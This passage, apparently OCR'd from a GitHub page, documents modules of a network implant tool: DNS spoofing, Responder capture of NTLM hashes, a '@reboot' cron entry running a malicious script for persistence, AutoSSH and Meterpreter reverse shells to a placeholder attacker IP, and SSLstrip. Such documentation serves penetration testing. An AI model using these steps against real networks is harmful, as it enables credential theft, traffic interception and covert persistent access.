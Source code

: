 2. DNS Spoof:
   - This module allows DNS spoofing attacks, where DNS queries are intercepted and altered to direct a victim to a malicious IP address.
   - Example usage:
     ```bash
     turtle# dnsspoof
     Enter target domain: example.com
     Enter spoofed IP address: <attack_ip>
     ```

3. Responder:
   - The `Responder` module listens for NetBIOS/LLMNR queries and responds with poisoned answers to capture network credentials (NTLM hashes).
   - Example usage:
     ```bash
     turtle# responder
     Starting responder on interface eth0...
     ```

4. Cronjobs:
   - You can schedule cron jobs to run specific tasks at regular intervals, which is useful for persistence or maintaining access.
   - Example cron job:
     ```bash
     turtle# crontab -e
     @reboot /path/to/malicious/script.sh
     ```

5. AutoSSH:
   - The `AutoSSH` module creates an outbound reverse shell to a remote server, enabling persistent remote access.
   - Example usage:
     ```bash
     turtle# autossh
     Enter remote host IP: <attack_ip>
     Enter remote host port: <attack_port>
     ```

6. Meterpreter:
   - The `Meterpreter` module can be used in conjunction with Metasploit to maintain remote access with a shell running in memory.
   - Example usage:
     ```bash
     turtle# meterpreter
     Starting Meterpreter reverse shell...
     ```

7. SSLstrip:
   - The `SSLstrip` module is used to perform SSL stripping attacks by downgrading HTTPS connections to HTTP, allowing an attacker to intercept unencrypted traffic.
   - Example usage:
     ```bash
     turtle# sslstrip
     Starting SSLstrip...
     ```
